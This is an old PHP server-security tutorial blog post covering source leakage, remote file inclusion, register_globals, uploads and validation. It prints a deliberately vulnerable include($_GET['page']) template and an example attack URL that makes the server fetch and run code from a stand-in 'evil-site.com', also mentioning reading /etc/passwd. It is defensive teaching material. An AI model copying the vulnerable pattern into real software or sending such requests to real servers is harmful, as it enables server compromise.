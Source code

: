 title: Securing Your PHP Code - Server Security
date: 2008-04-06 02:04
excerpt: 
categories: mysql, php, programming

When protecting your server environment you'll want to ensure that two things happen. Firstly, you'll want to keep your scripts from prying eyes; you want to make sure that you don't accept input that will break your code. Secondly, and most importantly, you want to stop anyone from executing their own code on your servers.

<!--more-->

## Keeping Code Private

There are many reasons why you would want to keep your code from being leaked. It may contain passwords or API keys, it could give attackers an idea of where your code is vulnerable or you might just not want some idiot to nick your code and benefit from your hard work.

Of course everyone knows that [security by obscurity is bad](http://en.wikipedia.org/wiki/Security_through_obscurity), but if you have holes in your code then it's obviously better if other people didn't know about them.

The number one rookie mistake is failing to give your PHP scripts a .php extension. This may seem obvious, but lots of people seem to like naming their files something like "functions.inc" or "MyClass.class", seemingly unaware that anyone can request those files and view the raw code.

As well as giving files a correct extension you also consider moving them out of your web root anyway. You don't need them in there, and having them in a non-public path makes everything safer. If you don't want to rearrange your site structure then you could just use .htaccess to deny all requests to your include folder. In your-site.com/includes/.htaccess

```php
Deny from all
```

Facebook recently had a [configuration](http://killersoft.com/randomstrings/2007/08/12/php-did-not-cause-facebook-code-leakage/) [issue](http://www.techcrunch.com/2007/08/11/facebook-source-code-leaked/) that caused their PHP files to be sent out as plain text. It only takes one small mistake to show the entire world the code base stored in your web root.

## Remote Code Execution

The last thing you ever want is to have an attacker run their own code on your servers. Unfortunately there are a few simple mistakes that could open your site up to this possibility.

Watch what you include or require. Many people use include as a shortcut in their templates. For example

```php
<html>
<body>
	<div class="header">...</div>
	<?php include($_GET['page'] . '.php'); ?>
</body> 	
</html>
```

This is a major no-no. The first problem is that an attacker can use this vulnerability to have any file on your system output to them. `/etc/passwd`. PHP will also allow you to include files from a remote server. An attacker can use this "feature" against you a request to `http://www.your-site.com/index.php?page=``http://www.evil-site.com/malicious-script.php.txt` would force your server to download and execute code from the "evil-site.com" domain. Once that happens the user can attack your system by executing [shell functions](http://kestas.kuliukas.com/Webkit/).

If you want to use the above pattern of templating then you can easily implement a white list of safe files.

```php
<?php
$page = $_GET['page'];
$pages = array('index', 'about', '404', 'help');
if (!in_array($page, $pages)) {
	$page = '404';
}
include("$page.php");
?>
```

## Register Globals

In the early days of PHP, external variables ($_GET, $_POST) were expanded as variables directly into the global scope: a query string of "?a=foo" would create a variable called `$a` in your local scope. This is thanks to the register globals functionality. Although this could seem useful, it is [potentially dangerous](http://www.php.net/register_globals). You should always turn off register globals in php.ini. If you can't edit your php.ini then add the following to your .htaccess file

```php
php_value register_globals 0
```

## User Uploaded Files

Apache is set to pass any file with a "php" extension through to PHP. This means you have to be careful when storing user-uploaded files in your public directories. You may choose to allow users to upload their own avatar. It you keep the name given to the file by the user then you could be in for some trouble.

## Form Validation

One final word of warning: don't be tempted to leave any data validation to the client side. You might have written a nifty JavaScript function that does everything for you, but don't just leave it at that. You should always write your PHP validating first (and also use your database rules where possible). JavaScript validation is something you should attempt when everything else works perfectly, and should be approached as a way of speeding things up for the end user.

## Other articles in this series

*   [Securing Your PHP Code - XSS](../securing-your-php-code-xss/)
*   [Securing Your PHP Code - Databases](../securing-your-php-code-databases/)